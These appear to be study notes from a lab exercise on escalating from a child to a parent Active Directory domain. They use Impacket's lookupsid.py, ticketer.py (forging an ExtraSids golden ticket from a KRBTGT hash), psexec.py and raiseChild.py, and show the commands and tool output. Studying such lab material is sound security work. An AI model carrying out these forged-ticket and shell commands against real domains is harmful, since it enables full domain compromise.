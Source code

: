 #### **Performing SID Brute Forcing using lookupsid.py**

* `dollarboysushil@htb[/htb]**$** lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240`
* `dollarboysushil@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"` → filtering out just the DOMAIN SID

#### **Grabbing the Domain SID & Attaching to Enterprise Admin's RID**

* `dollarboysushil@htb[/htb]**$** lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"`
* The KRBTGT hash for the child domain: `9d765b482771505cbe97411065964d5f` → from DCSync using secretsdump.py
* The SID for the child domain: `S-1-5-21-2806153819-209893948-922872689` → from lookupsid.py
* The name of a target user in the child domain (does not need to exist!): `hacker`
* The FQDN of the child domain: `LOGISTICS.INLANEFREIGHT.LOCAL`
* The SID of the Enterprise Admins group of the root domain: `S-1-5-21-3842939050-3880317879-2865463114-519`→ from lookupsid.py

## **Constructing a Golden Ticket using ticketer.py**

```
dollarboysushil@htb[/htb]$ ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for LOGISTICS.INLANEFREIGHT.LOCAL/hacker
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncAsRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncASRepPart
[*] Saving ticket in hacker.ccache
```

ticket will be saved in .ccache, we have to setup a `KRB5CCNAME` Environment Variable

* `export KRB5CCNAME=hacker.ccache`
* `dollarboysushil@htb[/htb]$ psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5` → getting System shell using impacket’s psexec

Impacket also has the tool [raiseChild.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/raiseChild.py), which will automate escalating from child to parent domain.

* `dollarboysushil@htb[/htb]**$** raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm`


[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\backupadm\Documents> klist